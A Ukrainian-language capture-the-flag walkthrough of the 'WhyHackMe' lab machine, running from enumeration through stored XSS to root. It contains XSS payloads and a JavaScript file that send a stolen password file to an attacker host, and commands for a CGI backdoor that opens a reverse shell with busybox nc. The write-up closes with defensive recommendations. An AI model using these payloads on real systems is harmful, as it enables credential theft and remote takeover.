

# WhyHackMe - Dive into the depths of security and analysis with WhyHackMe.

Складність: Medium

Ціль: 10.113.143.191

## 1. Розвідка (Reconnaissance & Enumeration)

### 1.1. Сканування портів (Nmap):
   Проводимо первинне сканування цільової машини.
```bash
└─$ sudo nmap -sV -sC -oN nmap_scan.txt 10.113.143.191
```


### 1.2. FTP Enumeration
   Підключаємось до `FTP` та переглядаємо доступні файли.
```bash
└─$ ftp 10.113.143.191
ftp> ls -lah
229 Entering Extended Passive Mode (|||14935|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        119          4096 Mar 14  2023 .
drwxr-xr-x    2 0        119          4096 Mar 14  2023 ..
-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
226 Directory send OK.
ftp> get update.txt
...
└─$ cat update.txt 
Hey I just removed the old user mike because that account was compromised and for any of you who wants the creds of new account visit 127.0.0.1/dir/pass.txt and don't worry this file is only accessible by localhost(127.0.0.1), so nobody else can view it except me or people with access to the common account. 
- admin
```

### 1.3. Веб-розвідка
   Виконуємо пошук прихованих директорій.
```bash
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -u http://10.113.143.191/ -k -t 50 -x html,txt,php
```


## 2. Початковий доступ (Initial Access)

### 2.1. Аналіз Stored XSS
   Спочатку перевіряємо поле коментаря.
```html
<script>alert(1)</script>

```

```svg
<svg onload=alert(1)>
```

   Результат - HTML-теги екрануються.


   Далі перевіряємо поле імені користувача.


   Після відправлення коментаря JavaScript успішно виконується.


### 2.2. Отримання доступу до локального файлу
   Першою спробою було виконати:
```html
fetch('/dir/pass.txt')
```

  Відповідь `403 Forbidden`.

   Подальший аналіз показує, що необхідно виконувати код від імені адміністратора.     
```html
<script>fetch('/dir/pass.txt').then(r=>r.text()).then(t=>fetch('http://192.168.130.250:4444/?data='+btoa(t)))</script>
```



```bash
└─$ echo 'PCFET0NUWVBFIEhUTUwgUFVCTElDICItLy9JRVRGLy9EVEQgSFRNTCAyLjAvL0VOIj4KPGh0bWw+PGhlYWQ+Cjx0aXRsZT40MDMgRm9yYmlkZGVuPC90aXRsZT4KPC9oZWFkPjxib2R5Pgo8aDE+Rm9yYmlkZGVuPC9oMT4KPHA+WW91IGRvbid0IGhhdmUgcGVybWlzc2lvbiB0byBhY2Nlc3MgdGhpcyByZXNvdXJjZS48L3A+Cjxocj4KPGFkZHJlc3M+QXBhY2hlLzIuNC40MSAoVWJ1bnR1KSBTZXJ2ZXIgYXQgMTAuMTEzLjE0My4xOTEgUG9ydCA4MDwvYWRkcmVzcz4KPC9ib2R5PjwvaHRtbD4K' | base64 -d
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 10.113.143.191 Port 80</address>
</body></html>
```

```html
<script>fetch('http://127.0.0.1/dir/pass.txt').then(r=>r.text()).then(t=>fetch('http://192.168.130.250:4444/?data='+btoa(t)))</script>
```

```html
<script>fetch('http://127.0.0.1/dir/pass.txt').then(r=>alert(r.status)).catch(e=>alert(e))</script>
```


Підготуємо пейлоад для виконання зовнішнього JavaScript, логінимось та лишаємо коментар

```html
<script src="http://192.168.130.250:4444/lol.js"></script>
```

   Вміст `lol.js`:
```js
fetch('/dir/pass.txt')
  .then(r => r.text())
  .then(data => {
      new Image().src = 'http://192.168.130.250:4444/?data=' + encodeURIComponent(data);
  });
```

   На атакуючій машині запускається HTTP-сервер: 
```bash
python3 -m http.server 4444
```

   Після відкриття сторінки адміністратором отримуємо вміст `/dir/pass.txt`.


### 2.3. SSH-доступ
   Використовуючи отримані облікові дані, підключаємось по SSH. Після входу отримуємо прапор користувача.


## 3. Аналіз системи

### 3.1. Перевірка sudo
   Перевіряємо доступні sudo-команди.
   


   Користувач має право запускати: `/usr/sbin/iptables`.
   
### 3.2. Пошук цікавих файлів
   У каталозі `/opt` знаходимо:
```bash
jack@ubuntu:~$ ls -lah /opt
total 40K
drwxr-xr-x  2 root root 4.0K Aug 16  2023 .
drwxr-xr-x 19 root root 4.0K Mar 14  2023 ..
-rw-r--r--  1 root root  27K Aug 16  2023 capture.pcap
-rw-r--r--  1 root root  388 Aug 16  2023 urgent.txt
jack@ubuntu:~$ cat /opt/urgent.txt 
Hey guys, after the hack some files have been placed in /usr/lib/cgi-bin/ and when I try to remove them, they wont, even though I am root. Please go through the pcap file in /opt and help me fix the server. And I temporarily blocked the attackers access to the backdoor by using iptables rules. The cleanup of the server is still incomplete I need to start by deleting these files first.
```

   Файл `urgent.txt` повідомляє:
* сервер був скомпрометований;
* у `/usr/lib/cgi-bin` залишився бекдор;
* доступ до нього тимчасово заблоковано через `iptables`;
* необхідно проаналізувати мережевий дамп.

## 4. Аналіз мережевого дампа

### 4.1. Дослідження Wireshark
   Відкриваємо `capture.pcap`. Через `Statistics` → `Protocol Hierarchy` бачимо, що весь корисний трафік передається через `TLS`.
   


   Звичайний `Follow TCP Stream` не дозволяє переглянути HTTP-запити.

### 4.2. Пошук TLS-ключа
   Досліджуємо конфігурацію `Apache`.
```bash
jack@ubuntu:/opt$ find /etc/apache2 -type f
/etc/apache2/magic
/etc/apache2/certs/apache.key
/etc/apache2/certs/apache-certificate.crt
...
```

   У конфігурації `VirtualHost` підтверджується використання знайденого ключа.
```bash
jack@ubuntu:/opt$ cat /etc/apache2/sites-enabled/*
...
Listen 41312
<VirtualHost *:41312>
        ServerName www.example.com
        ServerAdmin webmaster@localhost
        #ErrorLog ${APACHE_LOG_DIR}/error.log
        #CustomLog ${APACHE_LOG_DIR}/access.log combined
        ErrorLog /dev/null
        SSLEngine on
        SSLCipherSuite AES256-SHA
        SSLProtocol -all +TLSv1.2
        SSLCertificateFile /etc/apache2/certs/apache-certificate.crt
        SSLCertificateKeyFile /etc/apache2/certs/apache.key
        ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
        AddHandler cgi-script .cgi .py .pl
        DocumentRoot /usr/lib/cgi-bin/
        <Directory "/usr/lib/cgi-bin">
                AllowOverride All 
                Options +ExecCGI -Multiviews +SymLinksIfOwnerMatch
                Order allow,deny
                Allow from all
        </Directory>
</VirtualHost>
```

   Копіюємо його на локальну машину.
```bash
└─$ scp jack@10.113.143.191:/etc/apache2/certs/apache.key .
```

   Імпортуємо ключ у `Wireshark`: **Edit** → **Preferences** → **Protocols** → **TLS**. Після цього TLS-трафік успішно розшифровується.

### 4.3. Виявлення бекдора
   У розшифрованому трафіку видно запити, до CGI-скрипта `5UP3r53Cr37.py` з параметрами `key=`, `iv=` та `cmd=`, що дозволяє виконувати довільні команди.
   


## 5. Підвищення привілеїв (Privilege Escalation)

### 5.1. Відкриття прихованого сервісу
   Переглядаємо правила `iptables`. Видаляємо правило, яке блокує порт `41312`.
```bash
jack@ubuntu:/opt$ sudo iptables -D INPUT 1
[sudo] password for jack: 
jack@ubuntu:/opt$ sudo iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         
ACCEPT     all  --  anywhere             anywhere            
ACCEPT     all  --  anywhere             anywhere             ctstate NEW,RELATED,ESTABLISHED
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:ssh
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:http
ACCEPT     icmp --  anywhere             anywhere             icmp echo-request
ACCEPT     icmp --  anywhere             anywhere             icmp echo-reply
DROP       all  --  anywhere             anywhere            

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
ACCEPT     all  --  anywhere             anywhere
```

   Після цього сервіс стає доступним.
```bash
└─$ sudo nmap -sV -p41312 10.113.143.191                   
...
PORT      STATE SERVICE VERSION
41312/tcp open  http    Apache httpd 2.4.41
Service Info: Host: www.example.com
...
```

### 5.2. Використання CGI-бекдора
   Перевіряємо виконання команд.   
```bash
└─$ curl -k 'https://10.113.143.191:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id'

<h2>uid=33(www-data) gid=1003(h4ck3d) groups=1003(h4ck3d)
<h2>
```

   Далі перевіряємо `sudo`.
```bash
└─$ curl -k 'https://10.113.143.191:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=sudo%20-l'

<h2>Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
<h2>
```

### 5.3. Отримання Root Shell
   Запускаємо `nc` та виконуємо реверс-шелл через CGI.
```bash
└─$ curl -k 'https://10.113.143.191:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=sudo%20busybox%20nc%20192.168.130.250%204545%20-e%20%2Fbin%2Fsh'
└─$ nc -lvnp 4545       
listening on [any] 4545 ...
connect to [192.168.130.250] from (UNKNOWN) [10.113.143.191] 34848
id && whoami
uid=0(root) gid=0(root) groups=0(root)
root
```

   Забираємо фінальний прапор:


## Висновки та рекомендації

Під час аналізу машини було виявлено низку критичних недоліків безпеки, які в сукупності дозволили отримати повний контроль над системою.

### Виявлені проблеми
- Наявність **Stored XSS** у полі імені користувача дозволила виконувати довільний JavaScript у браузері адміністратора.
- Облікові дані користувача зберігалися у локальному файлі `/dir/pass.txt`, доступ до якого був отриманий через XSS.
- Користувач `jack` мав право виконувати `iptables` через `sudo`, що дозволило відкрити прихований сервіс.
- Приватний TLS-ключ сервера був доступний локальному користувачу, що дало можливість розшифрувати мережевий дамп.
- У системі залишився прихований CGI-бекдор, доступ до якого блокувався лише правилом `iptables`, а не був видалений.
- Бекдор дозволяв виконувати довільні команди на сервері.
- Користувач `www-data` мав привілей `NOPASSWD: ALL`, що призвело до миттєвого отримання прав `root`.

### Рекомендації
- Усунути **Stored XSS** шляхом коректної валідації та екранування користувацького вводу.
- Не зберігати паролі або інші секрети у відкритому вигляді у веб-доступних або локальних файлах.
- Видаляти шкідливі файли після компрометації, а не покладатися лише на правила `iptables`.
- Обмежити доступ до приватних TLS-ключів лише процесам, яким вони необхідні.
- Дотримуватись принципу найменших привілеїв (Least Privilege) та переглянути права користувачів у `sudoers`.
- Регулярно перевіряти сервер на наявність сторонніх CGI-скриптів, бекдорів і невідомих сервісів.
- Використовувати централізований моніторинг журналів та контроль цілісності файлів для своєчасного виявлення компрометації.

## Блок-схема

```
                    +----------------------+
                    |      Nmap Scan       |
                    +----------+-----------+
                               |
                               v
                    +----------------------+
                    |   FTP Enumeration    |
                    |     update.txt        |
                    +----------+-----------+
                               |
                               v
                    +----------------------+
                    | Gobuster Enumeration |
                    +----------+-----------+
                               |
                               v
                    +----------------------+
                    |  Stored XSS (Name)   |
                    +----------+-----------+
                               |
                               v
                    +----------------------+
                    | Admin opens comment  |
                    |  JS executes         |
                    +----------+-----------+
                               |
                               v
                    +----------------------+
                    | Exfiltration of      |
                    | /dir/pass.txt        |
                    +----------+-----------+
                               |
                               v
                    +----------------------+
                    | SSH as jack          |
                    +----------+-----------+
                               |
                               v
                    +----------------------+
                    | sudo iptables        |
                    +----------+-----------+
                               |
                               v
                    +----------------------+
                    | capture.pcap         |
                    | Apache TLS Key       |
                    +----------+-----------+
                               |
                               v
                    +----------------------+
                    | Decrypt TLS Traffic  |
                    +----------+-----------+
                               |
                               v
                    +----------------------+
                    | Discover CGI Backdoor|
                    +----------+-----------+
                               |
                               v
                    +----------------------+
                    | Remove iptables rule |
                    | Open port 41312      |
                    +----------+-----------+
                               |
                               v
                    +----------------------+
                    | RCE via CGI          |
                    | cmd=                 |
                    +----------+-----------+
                               |
                               v
                    +----------------------+
                    | sudo -l (www-data)   |
                    | NOPASSWD: ALL        |
                    +----------+-----------+
                               |
                               v
                    +----------------------+
                    |      ROOT SHELL      |
                    +----------------------+
```
